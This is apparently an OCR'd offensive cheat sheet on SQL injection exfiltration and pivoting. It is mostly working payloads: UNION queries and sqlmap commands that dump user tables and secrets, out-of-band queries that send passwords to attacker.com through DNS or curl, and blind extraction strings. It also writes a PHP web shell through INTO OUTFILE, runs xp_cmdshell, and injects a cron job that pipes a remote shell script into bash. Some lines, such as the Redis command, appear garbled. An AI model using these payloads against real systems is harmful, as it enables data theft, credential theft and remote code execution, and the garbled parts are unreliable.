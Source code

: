 ***Exfiltration & pivoting***
**Exfiltration techniques Data dumps (UNION SELECT) This is just a classic exfiltration**
    ?id=1 UNION SELECT id, username, password FROM users-- - 
if you know column count and types, you can dump entire tables. 
    sqlmap -u URL --dump --batch

**exfil sensitive configs target values: AWS Keys, SMTP creds, API tokens, S3 buckets, internal IP/Domain**
    SELECT * FROM config; 
    SELECT * FROM settings; 
    SELECT * FROM env; 
    SELECT value FROM settings WHERE key LIKE '%secret%';

**Out-of-Band exfil Used in blind SQLi, great for stealth and bypassing WAFs MySQL DNS-based:**
    LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users LIMIT 1),'\\.attacker.com\\')); MSSQL: exec xp_dirtree '\\attacker.com\share' PostgreSQL: COPY (SELECT password FROM users) TO PROGRAM 'curl http://attacker.com/data.txt'

**Boolean/time-based blind exfil**
If UNION/errors don’t work: 
    1' AND SUBSTRING((SELECT password FROM users LIMIT 1),1,1) = 'a'-- - 
    Automate with: 
        sqlmap -u URL --technique=T --dbs

***Pivoting and lateral movement***-
**In the application layer(SQL Access) look for ways to:**
    -steal more credentials(RDS, Redis, SMTP)
    -write to disk (RCE)
    -Access other internal services
    -poison internal cache or jobs
credential extraction-pivot Look for: 
    SELECT * FROM users; SELECT * FROM environment; SELECT * FROM credentials; Find SMTP/Redis/AWS keys: aws_access_key=AKIA.... smtp://username:password@mail.internal 
    if creds found try logging into: 
        Internal admin panels 
        S3 buckets 
        SSH
        FTP (if creds found) 
        Database consoles

**RCE via SQLi (File Write/ Function Abuse)**
If you can write files: 
    MySQL (Linux/PHP): 
        UNION SELECT "" INTO OUTFILE '/var/www/html/shell.php' then: GET /shell.php?cmd=whoami 
    MSSQL: 
        exec xp_cmdshell 'powershell -enc ...'

**Access other internal systems(service pivot)**
Use SQLi to: 
Dump internal subdomains: 
    SELECT host FROM logs WHERE referrer LIKE '%internal%' 
Pivot to Redis if Redis is reachable and unauthenticated, poison it: 
    SET CONFIG rewrite-command 'FLUSHALL' 'GETFLAG' Poison scheduled jobs or cron via DB injections: INSERT INTO cron (cmd) VALUES ('curl http://attacker.com/shell.sh | bash');
